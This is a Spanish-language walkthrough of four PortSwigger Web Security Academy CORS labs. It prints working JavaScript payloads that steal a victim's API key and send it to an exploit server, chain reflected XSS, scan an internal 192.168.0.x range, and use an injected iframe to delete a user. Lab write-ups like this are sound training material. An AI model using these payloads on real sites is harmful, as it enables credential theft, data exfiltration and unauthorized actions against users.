

layout: default
title: "Cross-origin resource sharing - PortSwigger"
permalink: /cors-ps/

# Cross-origin resource sharing - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en el siguiente link.

[https://portswigger.net/web-security/cors](https://portswigger.net/web-security/cors)

## Índice

- [1. Lab: CORS vulnerability with basic origin reflection](#1-lab-cors-vulnerability-with-basic-origin-reflection)
- [2. Lab: CORS vulnerability with trusted null origin](#2-lab-cors-vulnerability-with-trusted-null-origin)
- [3. Lab: CORS vulnerability with trusted insecure protocols](#3-lab-cors-vulnerability-with-trusted-insecure-protocols)
- [4. Lab: CORS vulnerability with internal network pivot attack](#4-lab-cors-vulnerability-with-internal-network-pivot-attack)
- [CONCLUSION](#conclusion)

## 1. Lab: CORS vulnerability with basic origin reflection

```
Este sitio web tiene una configuración CORS insegura en la que confía en todos los orígenes.

Para resolver el laboratorio, cree JavaScript que use CORS para recuperar la clave API del administrador y cargue el código en su servidor de explotación. El laboratorio se resuelve cuando envía correctamente la clave API del administrador.

Puede iniciar sesión en su propia cuenta con las siguientes credenciales:wiener:peter
```

El reto consiste en obtener el API del usuario administrador, para ello primero nos logeamos y buscamos algun paquete que sea interesante o que contenga la API del usuario. Encontramos un recurso que nos devuelve la API del usuario.


Ahora, armaremos nuestro payload ingresando al exploit server. Nuestro payload sera un javascript, de la siguiente manera:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://accd1fd41f49fd57c0710d75007f00b6.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//exploit-acde1f681f31fd46c0970d7d01670029.web-security-academy.net//log?key='+btoa(this.responseText);
};
```

Y también, agregaremos unas cabeceras HTTP.

```
Access-Control-Allow-Origin: https://exploit-acde1f681f31fd46c0970d7d01670029.web-security-academy.net
Access-Control-Allow-Credentials: true
```

Entonces, la configuración quedaría de la siguiente manera:


Entonces, enviamos el exploit y la victima y revisamos los logs.


Como podemos ver, tenemos una cadena en base64 desde una ip diferente. Entonces lo decodearemos para obtener la key de administrador.

```
-$ echo 'ewogICJ1c2VybmFtZSI6ICJhZG1pbmlzdHJhdG9yIiwKICAiZW1haWwiOiAiIiwKICAiYXBpa2V5IjogInJjcUhHMFlBazVDSWQ2REE2TmlZTGJmZFJUY0hRUE9TIiwKICAic2Vzc2lvbnMiOiBbCiAgICAiMnJZZHpDN21IWGNMUFlSMnlSUnd5eGtEdEVSTTMwdUEiCiAgXQp9' | base64 -d
{
  "username": "administrator",
  "email": "",
  "apikey": "rcqHG0YAk5CId6DA6NiYLbfdRTcHQPOS",
  "sessions": [
    "2rYdzC7mHXcLPYR2yRRwyxkDtERM30uA"
  ]
}
```

Entonces, enviamos el API key de administrator, en la opcion **Submit Solution** y completamos el reto.


## 2. Lab: CORS vulnerability with trusted null origin

```
Este sitio web tiene una configuración CORS insegura en la que confía en el origen "nulo".

Para resolver el laboratorio, cree JavaScript que use CORS para recuperar la clave API del administrador y cargue el código en su servidor de explotación. El laboratorio se resuelve cuando envía correctamente la clave API del administrador.

Puede iniciar sesión en su propia cuenta con las siguientes credenciales:wiener:peter
```

Nos logeamos y vemos el paquete que contiene la API key del usuario. El payload para este reto seria el siguiente:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','ac1c1f0a1e0ad0efc0fe16960000005a.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='exploit-ac511fac1ed3d0cec0ce1665015c0008.web-security-academy.net/log?key='+btoa(this.responseText);
};
</script>"></iframe>
```

Cuando le damos en **Deliver exploit to victim** y revisamos en los log, podemos ver que no hay ningun registro en el recurso **/log**. Por ello lo que haremos sera acceder manualmente a la url del exploit y verificamos con la consola del navegador para ver si existe algun error.


Como podemos ver, el error se basa en una url invalida por ello actualizaremos el payload de manera completa con los protocolos https.

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://ac1c1f0a1e0ad0efc0fe16960000005a.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-ac511fac1ed3d0cec0ce1665015c0008.web-security-academy.net/log?key='+btoa(this.responseText);
};
</script>"></iframe>
```

Entonces, enviamos el exploit a la victima y revisamos el log.


Como podemos ver, tenemos una cadena en base64 desde una ip diferente. Entonces lo decodearemos para obtener la key de administrador.

```
-$ echo 'ewogICJ1c2VybmFtZSI6ICJhZG1pbmlzdHJhdG9yIiwKICAiZW1haWwiOiAiIiwKICAiYXBpa2V5IjogIndwMm1PeDg4dFVmOUlDenRvSE91OGZEZDUzYmNldmJrIiwKICAic2Vzc2lvbnMiOiBbCiAgICAiek5VRFNOcjNDV3liaTBJclNmYlFTU0UxVm1nQkp3U1MiCiAgXQp9' | base64 -d
{
  "username": "administrator",
  "email": "",
  "apikey": "wp2mOx88tUf9ICztoHOu8fDd53bcevbk",
  "sessions": [
    "zNUDSNr3CWybi0IrSfbQSSE1VmgBJwSS"
  ]
```

Entonces, enviamos el API key de administrator, en la opcion **Submit Solution** y completamos el reto.


## 3. Lab: CORS vulnerability with trusted insecure protocols

```
Este sitio web tiene una configuración CORS insegura en la que confía en todos los subdominios independientemente del protocolo.

Para resolver el laboratorio, cree JavaScript que use CORS para recuperar la clave API del administrador y cargue el código en su servidor de explotación. El laboratorio se resuelve cuando envía correctamente la clave API del administrador.

Puede iniciar sesión en su propia cuenta con las siguientes credenciales:wiener:peter
```

Nos logeamos y vemos el paquete que contiene la API key del usuario. En la pista podemos ver nos dice lo siguiente:

```
Si pudiera atacar a la víctima con un hombre en el medio (MITM), podría usar un ataque MITM para secuestrar una conexión a un subdominio inseguro e inyectar JavaScript malicioso para explotar la configuración de CORS. Desafortunadamente, en el entorno de laboratorio, no puede MITM a la víctima, por lo que deberá encontrar una forma alternativa de inyectar JavaScript en el subdominio.
```

Entonces, lo que haremos sera buscar algun subdominio que sea vulnerable a XSS para insertar ahi nuestro payload.


Revisando el sitio web verificamos que tenemos una opcion llamada **Check stock**, luego de hacer clic se nos abre una ventana emergente con el numero de stock del producto. Podemos ver que forma parte de un subdominio.


Entonces, intentaremos cambiar el valor del parametro **productId** por un alert.

```
https://stock.acd31f7d1ff7f90fc06c48bc000e0070.web-security-academy.net/?productId=%3Cscript%3Ealert(1)%3C/script%3E&storeId=1
```

Entonces, vemos que funciona el XSS en el subdominio stock.


Entonces, armaremos nuestro payload para colocarlo en la url y robar la key del admin.

```javascript
var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://acd31f7d1ff7f90fc06c48bc000e0070.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener(){ location='http://exploit-ac711fad1f38f909c033482301c700d8.web-security-academy.net/log?key='+btoa(this.responseText); };
```

Hacemos un url encode en la url:

```
https://stock.acd31f7d1ff7f90fc06c48bc000e0070.web-security-academy.net/?productId=%3Cscript%3Evar%20req%20%3D%20new%20XMLHttpRequest()%3B%20req.onload%20%3D%20reqListener%3B%20req.open(%27get%27%2C%27https%3A%2F%2Facd31f7d1ff7f90fc06c48bc000e0070.web-security-academy.net%2FaccountDetails%27%2Ctrue)%3B%20req.withCredentials%20%3D%20true%3B%20req.send()%3B%20function%20reqListener()%7B%20location%3D%27http%3A%2F%2Fexploit-ac711fad1f38f909c033482301c700d8.web-security-academy.net%2Flog%3Fkey%3D%27%2Bbtoa(this.responseText)%3B%20%7D%3B%3C%2Fscript%3E&storeId=1
```

Actualizamos en el server exploit el contenido utlizando una redireccion a la url del subdominio con el xss insertado.

```
<script>location="https://stock.acd31f7d1ff7f90fc06c48bc000e0070.web-security-academy.net/?productId=%3Cscript%3Evar%20req%20%3D%20new%20XMLHttpRequest()%3B%20req.onload%20%3D%20reqListener%3B%20req.open(%27get%27%2C%27https%3A%2F%2Facd31f7d1ff7f90fc06c48bc000e0070.web-security-academy.net%2FaccountDetails%27%2Ctrue)%3B%20req.withCredentials%20%3D%20true%3B%20req.send()%3B%20function%20reqListener()%7B%20location%3D%27http%3A%2F%2Fexploit-ac711fad1f38f909c033482301c700d8.web-security-academy.net%2Flog%3Fkey%3D%27%2Bbtoa(this.responseText)%3B%20%7D%3B%3C%2Fscript%3E&storeId=1";</script>
```

Entonces, luego de configurar el exploit server lo enviamos a la victima y revisamos el log.


Como podemos ver, tenemos una cadena en base64 desde una ip diferente. Entonces lo decodearemos para obtener la key de administrador.

```
-$ echo 'ewogICJ1c2VybmFtZSI6ICJhZG1pbmlzdHJhdG9yIiwKICAiZW1haWwiOiAiIiwKICAiYXBpa2V5IjogInY3RVhGUVozRHV5SWRiUWczWmlPYmZrdVU1Rmx2Qk5kIiwKICAic2Vzc2lvbnMiOiBbCiAgICAieWZOSjVQSmMzSVhpTTI5YWhyamh0YU9CQjdrb041b04iCiAgXQp9' | base64 -d
{
  "username": "administrator",
  "email": "",
  "apikey": "v7EXFQZ3DuyIdbQg3ZiObfkuU5FlvBNd",
  "sessions": [
    "yfNJ5PJc3IXiM29ahrjhtaOBB7koN5oN"
  ]
}
```

Entonces, enviamos el API key de administrator, en la opción **Submit Solution** y completamos el reto.


## 4. Lab: CORS vulnerability with internal network pivot attack

```
Este sitio web tiene una configuración CORS insegura en el sentido de que confía en todos los orígenes de la red interna.

Esta práctica de laboratorio requiere varios pasos para completarse. Para resolver el laboratorio, elabore algo de JavaScript para ubicar un punto final en la red local ( 192.168.0.0/24, puerto 8080) que luego puede usar para identificar y crear un ataque basado en CORS para eliminar un usuario. El laboratorio se resuelve cuando eliminas el usuario Carlos.
```

Para resolver este laboratorio, debemos en primera instancia obtener cual es la ip del servidor interno que contiene el panel de administración. Para ello realizaremos una petición en el rango de ip otorgado, y luego de que cargue la solicitud enviaremos el contenido de la respuesta al servidor de exploit. Para ello utilizaremos el siguiente código en JavaScript.

```html
<script>
for(var i=0; i < 256; i++){
	var req = new XMLHttpRequest();
	req.onload = reqListener(i);
	req.open('get','http://192.168.0.'+i+':8080/login',true);
	req.send();
}

function reqListener(i){
	return function(){
		var req2 = new XMLHttpRequest();
		req2.open('GET', "http://exploit-0a1600f604c8eb0fc0692b1001290046.exploit-server.net/log?ip=192.168.0."+i+"&b64="+btoa(this.responseText), true);
		req2.send();
	}
};
</script>
```

Para ello, accedemos al servidor de exploit.


Escribimos el código y lo enviamos a la victima.


Luego realizamos clic en el botón **Access Log** para revisar si la victima logro otorgarnos información de cual era la dirección IP del servidor interno.


Como podemos ver, hemos obtenido una dirección IP **192.168.0.106**, con un contenido en base64, el cual decodeando seria el siguiente.

```html
<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>CORS vulnerability with internal network pivot attack</title>
    </head>
    <body>
            <script src="/resources/labheader/js/labHeader.js"></script>
            <div id="academyLabHeader">
    <section class='academyLabBanner'>
        <div class=container>
            <div class=logo></div>
                <div class=title-container>
                    <h2>CORS vulnerability with internal network pivot attack</h2>
                    <a id='exploit-link' class='button' target='_blank' href='http://exploit-0a1600f604c8eb0fc0692b1001290046.exploit-server.net'>Go to exploit server</a>
                    <a class=link-back href='https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack'>
                        Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                        <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                            <g>
                                <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                            </g>
                        </svg>
                    </a>
                </div>
                <div class='widgetcontainer-lab-status is-notsolved'>
                    <span>LAB</span>
                    <p>Not solved</p>
                    <span class=lab-status-icon></span>
                </div>
            </div>
        </div>
    </section>
</div>
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <h1>Login</h1>
                    <section>
                        <form class=login-form method=POST action=/login>
                            <input required type="hidden" name="csrf" value="ZplbnAQas6k2dLVZu3R6GFZiKXrvlsCP">
                            <label>Username</label>
                            <input required type=username name="username">
                            <label>Password</label>
                            <input required type=password name="password">
                            <button class=button type=submit> Log in </button>
                        </form>
                    </section>
                </div>
            </section>
        </div>
    </body>
</html>
```

Como podemos ver, nos encontramos con un código html muy parecido a la web externa que nos proporciona la laboratorio solo que este se encuentra en la red interna antes obtenida. Como vemos por el código HTML, al ingresar al recurso **/login**, nos devuelve un formulario de login, lo que nos indica que para acceder a los recursos requerimos de un inicio de sesión el cual no tenemos. Lo que podemos intentar es obtener una ventana del mismo sitio web de la sección de admin, y para ello podemos hacer uso de un *iframe*, pero debemos ingresar nosotros manualmente esta etiqueta y por ello es que requerimos encontrar una vulnerabilidad XSS.

Sabemos que, esta web es parecida a la web inicial que nos entrega el ejercicio, por ello intentaremos buscar alguna vulnerabilidad XSS dentro de la web externa. Al intentar ingresar al login con credenciales invalidas podemos verificar que el sitio web nos responde con un mensaje **Invalid username or password.**, interceptamos este paquete mediante el burpsuite, y al realizar la comparación no encontramos mediante ningún parámetro este mensaje de error. Pero, si realizamos un cambio de método al realizar la petición (POST a GET), podemos obtener un resultado interesante.


Como podemos ver, cuando se envía el parámetro username mediante método GET, este se refleja en el valor del input username del formulario. Esto nos da indicios de una posible vulnerabilidad XSS. Entonces, para comprobarlos ingresaremos el siguiente valor en el parámetro username.

```
">test
```

Ingresando este valor, obtenemos lo siguiente en la web.


Como podemos ver, hemos logrado romper la etiqueta input y mostrado texto fuera de la misma. Ahora con la información obtenida del XSS, intentaremos replicar el mismo ataque en la web interna, para ello haremos uso del siguiente código en javascript.

```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener();
req.open('get','http://192.168.0.106:8080/login?username=">test',true);
req.send();

function reqListener(){
	return function(){
		var req2 = new XMLHttpRequest();
		req2.open('GET', "http://exploit-0a1600f604c8eb0fc0692b1001290046.exploit-server.net/log?b64="+btoa(this.responseText), true);
		req2.send();
	}
};
</script>
```

Lo guardamos en el servidor de exploit y lo enviamos a la victima, obteniendo el siguiente registro en los logs.


Luego de decodificar el texto en base 64 podemos obtener la siguiente porción de código html del formulario de login.

```html
<form class=login-form method=POST action=/login>
    <input required type="hidden" name="csrf" value="hPFrB9VkiDklh5H1M0thXx5C1BihEwvu">
    <label>Username</label>
    <input required type=username name="username" value="">test">
    <label>Password</label>
    <input required type=password name="password">
    <button class=button type=submit> Log in </button>
</form>
```

Como podemos ver, el servidor interno también es vulnerable a XSS ya que se pudo romper la etiqueta input. Ahora, lo que intentaremos sera explotar esta vulnerabilidad XSS, para ello insertaremos una imagen donde cargaremos un recurso, y este recurso contendrá un enlace al servidor de exploit con el fin de comprobar que la etiqueta de la imagen halla cargado exitosamente. Esto lo realizaremos utilizando el siguiente código.

```html
<script>
location = 'http://192.168.0.106:8080/login?username='+encodeURIComponent('xd">');
</script>
```

Utilizaremos la función encodeURIComponent en javascript para codificar mediante URLencode el payload XSS y de esta manera este no se corrompa. Luego enviamos el exploit a la victima obteniendo el siguiente resultado en los logs.


Como podemos ver por los logs, la victima ingreso al exploit y este la envió al sitio web en donde cargó la etiqueta de imagen realizando una consulta a nuestro servidor de exploit en el recurso xss. Ahora, intentaremos insertar un *iframe* a la ruta /admin con el fin de obtener el contenido del panel de administración esto lo realizaremos con el siguiente payload.

```
xd"><iframe src="/admin">
```

Un problema que se nos presenta en este momento es, como podemos verificar que el iframe se cargue correctamente en el navegador de la victima, para ello haremos uso el atributo onload el cual nos permite ejecutar código javascript si el *iframe* se carga correctamente. Entonces, realizaremos una redirección a nuestro servidor de exploit realizando una consulta al recurso iframe.

```
xd"><iframe src="/admin" onload="location='http://exploit-0a1600f604c8eb0fc0692b1001290046.exploit-server.net/iframe'">
```
Entonces, agregando este nuevo payload en nuestro código quedaría el siguiente:

```html
<script>
location = 'http://192.168.0.106:8080/login?username='+encodeURIComponent('xd"><iframe src="/admin" onload="location=\'http://exploit-0a1600f604c8eb0fc0692b1001290046.exploit-server.net/iframe\'">');
</script>
```

Entonces almacenamos, enviamos el código a la victima y obtenemos el siguiente registro en los logs.


Como podemos ver, se realizó la carga correcta el iframe obteniendo luego de ello la redirección a el servidor de exploit en el recurso *iframe*.

Entonces, ahora que ya sabemos que el iframe se carga correctamente, deseamos obtener cual es el contenido del iframe que se inserta y para ello usaremos javascript para obtenerlo de la siguiente manera.

```javascript
this.contentWindow
```

Con esto obtenemos la referencia del contenido del iframe cargado, para esto ingresaremos este codigo dentro del atributo onload, haciendo referencia a que el **this** haga referencia al entorno del iframe. Luego de ello accedemos al documento y obtendremos el contenido de la etiqueta html de la siguiente manera.

```javascript
this.contentWindow.document.getElementsByTagName('html')[0].innerHTML
```

Ya que **getElementsByTagName** nos devuelve un array, para obtener el valor accederemos al indice 0. Luego el atributo **innerHTML** que nos devolverá el contenido html interno de la etiqueta html que es justo el código fuente de la ventana insertada por el iframe. Ahora ingresaremos todo ello dentro del código javascript de la siguiente manera.

```html
<script>
location = 'http://192.168.0.106:8080/login?username='+encodeURIComponent('xd"><iframe src="/admin" onload="location=\'http://exploit-0a1600f604c8eb0fc0692b1001290046.exploit-server.net/iframe?b64=\'+btoa(this.contentWindow.document.getElementsByTagName(\'html\')[0].innerHTML)">');
</script>
```

Entonces almacenamos, enviamos el código a la victima y obtenemos el siguiente registro en los logs.


Como se encuentra en base64 decodificamos el contenido y obtenemos el siguiente código html.

```html
<head>
        <link href="/resources/labheader/css/academyLabHeader.css" rel="stylesheet">
        <link href="/resources/css/labs.css" rel="stylesheet">
        <title>CORS vulnerability with internal network pivot attack</title>
    </head>
    <body>
            <script src="/resources/labheader/js/labHeader.js"></script>
            <div id="academyLabHeader">
    <section class="academyLabBanner">
        <div class="container">
            <div class="logo"></div>
                <div class="title-container">
                    <h2>CORS vulnerability with internal network pivot attack</h2>
                    <a id="exploit-link" class="button" target="_blank" href="http://exploit-0a1600f604c8eb0fc0692b1001290046.exploit-server.net">Go to exploit server</a>
                    <a class="link-back" href="https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack">
                        Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                        <svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" viewBox="0 0 28 30" enable-background="new 0 0 28 30" xml:space="preserve" title="back-arrow">
                            <g>
                                <polygon points="1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15"></polygon>
                                <polygon points="14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15"></polygon>
                            </g>
                        </svg>
                    </a>
                </div>
                <div class="widgetcontainer-lab-status is-notsolved">
                    <span>LAB</span>
                    <p>Not solved</p>
                    <span class="lab-status-icon"></span>
                </div>
            </div>
        </section></div>
    

        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href="/">Home</a><p>|</p>
                            <a href="/admin">Admin panel</a><p>|</p>
                            <a href="/my-account?id=administrator">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <form style="margin-top: 1em" class="login-form" action="/admin/delete" method="POST">
                        <input required="" type="hidden" name="csrf" value="IjhEyTaXYj3v0D522hkoKESK4uEblB3R">
                        <label>Username</label>
                        <input required="" type="text" name="username">
                        <button class="button" type="submit">Delete user</button>
                    </form>
                </div>
            </section>
        </div>
    

</body>
```

Como podemos ver, el contenido html hace referencia al panel de administración y entre todo ello obtenemos un formulario para eliminar usuarios.

```html
<form style="margin-top: 1em" class="login-form" action="/admin/delete" method="POST">
    <input required="" type="hidden" name="csrf" value="IjhEyTaXYj3v0D522hkoKESK4uEblB3R">
    <label>Username</label>
    <input required="" type="text" name="username">
    <button class="button" type="submit">Delete user</button>
</form>
```

Como podemos ver, ya nos encontramos en la parte final del laboratorio. Ahora debemos eliminar al usuario carlos, para ello debemos editar la etiqueta input ingresando en el atributo value el nombre del usuario a eliminar. Esto lo podremos realizar con javascript de la siguiente manera.

```javascript
document.getElementsByName('username')[0].value='carlos'
```

Pero como lo ejecutaremos dentro del contexto del iframe seria de la siguiente manera.

```javascript
this.contentWindow.document.getElementsByName('username')[0].value='carlos'
```

Luego, también necesitamos enviar el formulario y para ello realizaremos el evento submit() en el formulario de la siguiente manera.

```javascript
document.getElementsByClassName('login-form')[0].submit()
```

Pero como lo ejecutaremos dentro del contexto del iframe seria de la siguiente manera.

```javascript
this.contentWindow.document.getElementsByClassName('login-form')[0].submit()
```

Entonces, reemplazando estas son lineas de código javascript en nuestro código final, terminaría de la siguiente manera.

```html
<script>
location = 'http://192.168.0.106:8080/login?username='+encodeURIComponent('xd"><iframe src="/admin" onload="this.contentWindow.document.getElementsByName(\'username\')[0].value=\'carlos\';this.contentWindow.document.getElementsByClassName(\'login-form\')[0].submit();"');
</script>
```

Entonces almacenamos, enviamos el código a la victima y podemos verificar que el laboratorio se completó satisfactoriamente.




## CONCLUSION

Los primeros 3 laboratorios de CORS pueden parecer muy sencillos, ya que son ataques mas directos, mientras que el ultimo de ellos tiene mas complejidad ya que gracias a tener presente otras vulnerabilidades permite realizar un ataque mas complejo e interesante. Gracias a este modulo tuvimos la oportunidad de tener un contacto más profundo con el lenguaje javascript al momento de manejar ventanas y recolectar información del DOM.